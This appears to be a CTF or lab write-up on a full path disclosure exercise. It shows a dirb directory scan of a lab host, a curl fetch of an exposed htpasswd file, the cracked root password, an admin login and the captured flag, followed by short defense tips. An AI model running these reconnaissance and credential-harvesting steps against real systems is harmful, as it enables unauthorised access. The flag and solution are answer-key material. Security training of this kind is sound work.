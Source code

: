 # Full_Path_Disclosure


## Description

https://owasp.org/www-community/attacks/Full_Path_Disclosure

https://www.comparitech.com/blog/information-security/full-path-disclosure-attacks/

A full path disclosure (FPD) attack is pretty well-defined by its name. The attack, if successful, discloses the “full path” to a resource on the web server.

## Attack

	$ dirb http://192.168.1.75                

	-----------------
	DIRB v2.22    
	By The Dark Raver
	-----------------

	START_TIME: Mon Apr  4 16:23:19 2022
	URL_BASE: http://192.168.1.75/
	WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

	-----------------

	GENERATED WORDS: 4612                                                          

	---- Scanning URL: http://192.168.1.75/ ----
	==> DIRECTORY: http://192.168.1.75/admin/                                                                         
	==> DIRECTORY: http://192.168.1.75/audio/                                                                         
	==> DIRECTORY: http://192.168.1.75/css/                                                                           
	==> DIRECTORY: http://192.168.1.75/errors/                                                                        
	+ http://192.168.1.75/favicon.ico (CODE:200|SIZE:1406)                                                            
	==> DIRECTORY: http://192.168.1.75/fonts/                                                                         
	==> DIRECTORY: http://192.168.1.75/images/                                                                        
	==> DIRECTORY: http://192.168.1.75/includes/                                                                      
	+ http://192.168.1.75/index.php (CODE:200|SIZE:6892)                                                              
	==> DIRECTORY: http://192.168.1.75/js/                                                                            
	+ http://192.168.1.75/robots.txt (CODE:200|SIZE:53)                                                               
	==> DIRECTORY: http://192.168.1.75/whatever/                                                                      
																													
	---- Entering directory: http://192.168.1.75/admin/ ----
	==> DIRECTORY: http://192.168.1.75/admin/css/                                                                     
	==> DIRECTORY: http://192.168.1.75/admin/fonts/                                                                   
	+ http://192.168.1.75/admin/index.php (CODE:200|SIZE:1432)                                                        
																													
	---- Entering directory: http://192.168.1.75/audio/ ----
																													
	---- Entering directory: http://192.168.1.75/css/ ----
	==> DIRECTORY: http://192.168.1.75/css/images/                                                                    
																													
	---- Entering directory: http://192.168.1.75/errors/ ----
																													
	---- Entering directory: http://192.168.1.75/fonts/ ----
																													
	---- Entering directory: http://192.168.1.75/images/ ----
																													
	---- Entering directory: http://192.168.1.75/includes/ ----
																													
	---- Entering directory: http://192.168.1.75/js/ ----
																													
	---- Entering directory: http://192.168.1.75/whatever/ ----
	+ http://192.168.1.75/whatever/htpasswd (CODE:200|SIZE:38)                                                        
																													
	---- Entering directory: http://192.168.1.75/admin/css/ ----
	==> DIRECTORY: http://192.168.1.75/admin/css/images/                                                              
																													
	---- Entering directory: http://192.168.1.75/admin/fonts/ ----
																													
	---- Entering directory: http://192.168.1.75/css/images/ ----
																													
	---- Entering directory: http://192.168.1.75/admin/css/images/ ----
																													
	-----------------
	END_TIME: Mon Apr  4 16:23:27 2022
	DOWNLOADED: 64568 - FOUND: 5

	$ curl http://192.168.1.75/whatever/htpasswd
	root:8621ffdbc5698829397d97767ac13db3


root:8621ffdbc5698829397d97767ac13db3 -> md5 -> dragon

If we continue exploring the urls we find /admin witch request an admin login
if we try with the access above we find the Flag

The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff


## Defense

Use access control lists (ACL) to limit user access
Never hardcode sentive information
Disallow directory listing
